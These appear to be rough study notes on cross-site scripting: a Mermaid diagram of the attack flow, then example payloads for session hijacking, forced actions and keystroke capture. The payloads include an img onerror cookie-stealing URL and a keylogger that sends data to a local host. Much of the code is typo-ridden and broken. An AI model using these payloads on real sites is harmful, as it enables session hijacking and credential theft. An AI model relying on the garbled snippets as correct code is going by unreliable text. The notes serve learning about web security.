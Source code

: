 What it is: XSS happens when an attacker injects malicious JavaScript into a web page that runs in other users’ browsers.

once user is able to run script he can any kind of data cookie, keystrokes.

may be attacker will create malicious link, encode it and create tiny url.
for eg tiny url of stelaing instagram cookie.

# XSS Attack Diagram

## Mermaid diagram (use on GitHub / Mermaid-enabled viewers)

```mermaid
flowchart TD
  Attacker["👨‍💻 Attacker"]
  Website["🌐 Vulnerable Website"]
  Victim["🧑‍🦱 Victim User"]

  Attacker -->|1️⃣ Injects malicious script| Website
  Victim -->|2️⃣ Visits the infected page<br>Script runs in browser| Website
  Website -->|3️⃣ Sends stolen cookies / credentials| Attacker
```


 Vulnerability - User Session hijacking, Unauthorised activities, Capturing Keystrokes, Stealing Critical Information (take screenshots, chat), Phishing attack (how?)

Now a days new brosers are smart enough that do not allow this but still.


- User Session hijacking 

malicious link example -->  ?name=<img src="does-not-exhist" onerror="var img = document.createElement(\'img.src=\"http://127.0.0.1:5501/cookie?data=\'+document.cookie;document.querySelector(\"body\").append(img)

this link will genrate will create image src on via url and underthe hood run js, and js will steal the cookie.
once cookier is stolen (write what could go wrong)

- Unauthorised activities
imagine you are having facebook like website which postsomething. and you have written global method. and it is directly visible.

means you can access. window.createPost(); 
but now what could go wrong here.

take back malicous link example again
malicious link example -->  ?name=<img src="does-not-exhist" onerror="createPost("Hack title","hack description" />

once vivek click on that link, post has made, user might not have any idea what he has posted.

 - Capturing Keystrokes


 // Code  var timeout var buffer = ‘’l
Document.querySelectort(‘body’).addEventlistener(‘keypress’, function(event) {  if (event.which !== 0) { clearTimeout(timeout); buffer+=String.fromCharCode(event.which); timeoout=setTimeout(function() {
Var xor = new XMLHttpRequest(); var uri = ‘http://localhost:3001/keys?data='+encodeURIComponent
xhr.open(‘GET’, uri)l
xhr.send();
Buffer = ‘’;
}, 400); }
});

// 22.20









